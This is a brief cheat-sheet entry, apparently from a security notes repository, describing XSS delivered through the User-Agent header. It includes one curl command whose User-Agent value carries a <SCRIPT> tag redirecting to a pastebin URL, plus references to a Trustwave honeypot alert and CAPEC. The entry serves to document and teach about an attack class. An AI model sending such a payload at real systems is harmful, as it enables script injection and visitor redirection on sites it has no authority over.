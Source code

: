 # XSS
-----



## User-Agent Field XSS Attack
-----------------------------

Example:

```bash
   curl https://target.host -H "User-Agent: <SCRIPT>window.location='http://pastebin.com/GsHvJXED'</SCRIPT>" 
```

More info:
* https://www.trustwave.com/Resources/SpiderLabs-Blog/-Honeypot-Alert--User-Agent-Field-XSS-Attacks/
* http://capec.mitre.org/data/definitions/106.html

